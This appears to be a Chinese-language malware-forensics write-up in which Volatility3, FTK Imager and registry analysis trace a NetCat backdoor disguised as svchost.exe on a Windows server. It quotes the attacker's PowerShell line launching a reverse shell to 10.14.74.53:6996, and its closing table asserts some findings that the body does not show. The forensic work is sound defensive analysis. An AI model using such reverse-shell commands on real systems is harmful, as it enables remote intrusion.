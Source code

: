 ```yaml
---
title: '恶意软件分析实战：内存取证与磁盘溯源完整案例解析'
description: '通过完整案例演示如何利用Volatility3和FTK Imager进行Windows系统内存取证、恶意进程追踪、注册表分析与沙箱动态行为检测，揭示高级威胁攻击链。'
date: 2025-03-07
tags: ['Malware-Analysis', 'Memory-Forensics', 'Volatility3', 'FTK-Imager', 'Incident-Response']
image: './assets/image-20250307164005831.png'
authors: ['0xd00']
---
```


## 初始环境与取证数据

```bash
memdump.mem  pagefile.sys disk.dd
```

## 内存取证分析（Volatility3）

### 系统指纹识别

```bash
python3 vol.py -f memdump.mem windows.info
Kernel Base	0xf802388a7000
DTB	0x1aa000
Symbols	file:///home/ubuntu/Desktop/volatility3/volatility3/symbols/windows/ntkrnlmp.pdb/94E2AE6323B686F1F4B25BA580582E04-1.json.xz
Is64Bit	True
IsPAE	False
layer_name	0 WindowsIntel32e
memory_layer	1 FileLayer
KdVersionBlock	0xf80238ca4f08
Major/Minor	15.17763
MachineType	34404
KeNumberProcessors	2
SystemTime	2024-05-14 22:07:36
NtSystemRoot	C:\Windows
NtProductType	NtProductServer
NtMajorVersion	10
NtMinorVersion	0
PE MajorOperatingSystemVersion	10
PE MinorOperatingSystemVersion	0
PE Machine	34404
PE TimeDateStamp	Sat May  4 18:48:48 2030
```

通过内核版本`15.17763`确认系统为Windows Server 2019 (1809)，系统架构为64位环境，为后续分析提供基础环境上下文。

### 查看进程信息

```bash
python3 vol.py -f memdump.mem windows.pslist
```

![pslist列表截图](./assets/image-20250307143311308.png)

**关键发现：**

- PID 1036的`svchost.exe`父进程应为`services.exe`(PID 804)，但实际父进程为`powershell.exe`
- 进程路径指向非常规目录`C:\Tools\svchost.exe`（正常路径应为`C:\Windows\System32`）

### 查看创建进程的命令行

```bash
python3 vol.py -f memdump.mem windows.cmdline
```

![cmdline列表截图](./assets/image-20250307144553638.png)

`svchost.exe` 的文件路径并不是默认的 `C:\Windows\System32\svchost.exe`，而是位于 `C:\Tools\` 目录下

很明显这是伪装成系统进程的恶意程序，用于与外部IP地址进行通信。

下面还有一个通过notepad打开的`part2.txt`文件，文本内容可能通过base64编码。

通过访问`part2.txt`所在目录，我们还发现了一个`connector.ps1`文件

```bash
Start-Process -NoNewWindow "C:\Tools\svchost.exe" "-e cmd.exe 10.14.74.53 6996"  
C:\Windows\system32\NOTEPAD.EXE $args[0]  
```

可以得知攻击者用于接收反弹SHELL的IP是`10.14.74.53`

**攻击链重构：**

1. 通过`powershell.exe`启动伪装成系统服务`svchost.exe`的NetCat后门
2. 建立与C2服务器`10.14.74.53:6996`的反向连接
3. 利用记事本进程加载加密载荷`part2.txt`实现载荷分离

## 使用 FTK Imager 分析磁盘

### 定位恶意文件

查看从内存中找到的文件`C:\Tools\svchost.exe`

![FTK Imager定位伪造的svhost截图](./assets/image-20250307151058338.png)

通过VirusTotal中检测提取的SHA1，可以确认此程序为NetCat工具

![在VirusTotal中通过伪造的svchost SHA1进行查询截图](./assets/image-20250310141042360.png)

导出`C:\Windows\System32\config`下的注册表文件与`C:\Users\Bobby\NTUSER.DAT`

导入`Registry Explorer`

因为`svhost.exe`从`AutoConnector`目录下载，所以尝试在注册表中进行搜索`AutoConnector`

![在FTK Imager中搜索包含AutoConnector关键字的注册表项截图](./assets/image-20250307164005831.png)

![在FTK Imager中搜索包含AutoConnector关键字的注册表项截图2](./assets/image-20250307162137468.png)

![在FTK Imager中搜索包含AutoConnector关键字的注册表项截图3](./assets/image-20250307163925747.png)

成功定位`AutoConnector`的位置

使用VirusTotal进行分析

![在VirusTotal中通过AutoConnector SHA1进行查询截图](./assets/image-20250310141710454.png)

**持久化机制：**

- `HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\bam\State\UserSettings\S-1-5-21-1966530601-...-1008`存在恶意启动项
- 注册表键值指向`AutoConnector.exe`工具

### 分析系统日志

从`C:\Windows\System32\winevt\Logs\`导出事件日志

因为运行的脚本是Powershell脚本，所以仅导入包含Powershell关键字的日志到`EventViewer`即可

但未搜索到与`connector.ps1`相关的日志。

### 动态行为沙箱检测

导出恶意文件所在文件夹

组策略中开启`Turn on PowerShell Transaction`、`Turn on PowerShell Script Block Logging`、`Turn on Script Execution`

![配置组策略截图](./assets/image-20250310152641358.png)

运行恶意程序后查看日志

获取到第一部分载荷

![EventViewer截图](./assets/image-20250310153308977.png)

结合之前获取的part2.txt经过base64解码成功获取到原始载荷，确认其为数据渗出的加密密钥。

## 攻击链全景还原

| 阶段       | 技术点       | 取证证据                       |
| ---------- | ------------ | ------------------------------ |
| 初始访问   | ？           | ？                             |
| 执行       | 服务伪装     | C:\Tools\svchost.exe进程树异常 |
| 持久化     | 注册表自启动 | Run键值指向恶意后门程序        |
| 防御规避   | 日志清除     | Security.evtx日志时间断层      |
| 命令与控制 | 反向Shell    | NetCat连接10.14.74.53:6996     |
| 数据渗出   | AES加密隧道  | 内存解密Meterpreter配置        |
